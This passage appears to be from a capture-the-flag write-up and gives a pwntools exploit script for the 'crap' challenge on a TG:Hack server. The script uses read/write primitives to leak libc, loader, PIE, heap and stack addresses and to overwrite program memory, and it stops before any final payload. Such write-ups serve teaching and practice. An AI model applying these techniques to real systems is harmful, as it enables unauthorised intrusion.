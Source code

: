  I didn't parse out the output as I just set pwntools to debug context and saw the flag. Here is my final exploit:


```python
 from pwn import *

 bin = ELF('./crap')
 ld = ELF('./ld-2.31.so')
 libc = ELF('./libc.so.6')
 context(arch='amd64')

 p = remote("crap.tghack.no", 6001)

 def wait():
 p.recvrepeat(0.3)

 def view(address):
 p.sendline('1')
 wait()
 p.sendline(hex(address))

 def write(address, value):
 p.sendline('2')
 wait()
 p.sendline(hex(address) + ' ' + value)
 wait()

 def viewf():
 p.sendline('4')

 def writef(data, freestuff):
 p.sendline('3')
 wait()
 p.sendline(data)
 wait()
 p.sendline(freestuff)
 wait()

 writef('test', 'n')
 viewf()
 temp = p.recvline()
 libcleak = u64(temp.split(': ')[1].split('\n')[0].ljust(8, '\x00'))
 libc.address = libcleak - 0x3b5be0
 log.info("main arena leak: " + hex(libcleak))
 log.info("libc base: " + hex(libc.address))
 ld.address = 6250496+(0x1000*12)+libc.address
 log.info("ld base: " + hex(ld.address))
 view(ld.symbols['_dl_rtld_libname'])
 temp = p.recvline()
 pieleak= int(temp.split(': ')[1].split('\n')[0], 16)
 bin.address = pieleak - 2109440 + 2108872
 log.info("pie base: " + hex(bin.address))
 write(bin.address + 0x202030, "0xffffffa8ffffffa8")
 view(libcleak)
 temp = p.recvline()
 heapleak = int(temp.split(': ')[1].split('\n')[0], 16)
 log.info("heap leak: " + hex(heapleak))
 view(libc.symbols['environ'])
 temp = p.recvline()
 stackleak = int(temp.split(': ')[1].split('\n')[0], 16)
 log.info("stack leak: " + hex(stackleak))

 write(bin.address+0x202038, "0x0")

```